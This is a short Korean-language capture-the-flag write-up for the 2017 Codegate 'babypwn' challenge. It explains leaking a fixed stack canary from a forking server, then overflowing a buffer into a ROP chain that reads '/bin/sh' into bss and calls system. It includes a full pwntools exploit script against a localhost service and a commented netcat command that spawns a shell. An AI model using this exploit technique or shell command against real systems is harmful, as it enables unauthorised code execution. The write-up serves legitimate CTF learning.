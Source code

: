 ```yaml
---
layout: post
title: "2017 Codegate babypwn"
date: 2019-11-4
ctf: Codegate CTF
published : false
---
```


Reverse Shell을 열어서 풀면 된다.

canary leak해주면 되는데 이 바이너리를 보면 fork되어 있는 것을 알 수 있다. 그래서 canary값은 고정이다.

nc 접속해서 ret 전까지 카나리 값 맞춰주면서 덮어주고 recv함수 이용해서 bss영역에 /bin/sh (리버스쉘) 넣은 다음에 system함수로 실행시키면 된다.

> 1. Canary Leak
>
> 2. bof -> rop
>
> 3. rop chain -> recv(4,bss,/bin/sh,0)
>
> 4. system(bss)

```python
# -*-coding:utf-8-*- 
from pwn import *
 
e = ELF('./babypwn')
p = remote('localhost',8181)
r = ROP(e)
cmd = '/bin/sh'
# cmd = nc -lvp localhost 1234 -e /bin/sh
 
# canary leak
p.sendlineafter('> ','1')
p.sendlineafter(': ','A'*40)
p.recv(41)
canary = u32('\x00'+p.recv(3))
log.info('Canary : ' + hex(canary)) # canary 주소는 고정 fork 사용해서
 
p.close()

# solve
p = remote('localhost',8181)
bss = e.bss()

p.sendlineafter('> ','1')
 
# dummy(52) + sfp(4) + ret
pay = 'A'*40
pay += p32(canary)
pay += 'A'*12
r.recv(4,bss,len(cmd)+2,0)
r.system(bss)
pay += r.chain()
 
p.sendafter(': ',pay)
 
p.recvuntil('> ')
p.sendline('3')
sleep(0.3)
p.sendline(cmd)
 
p.interactive()
```

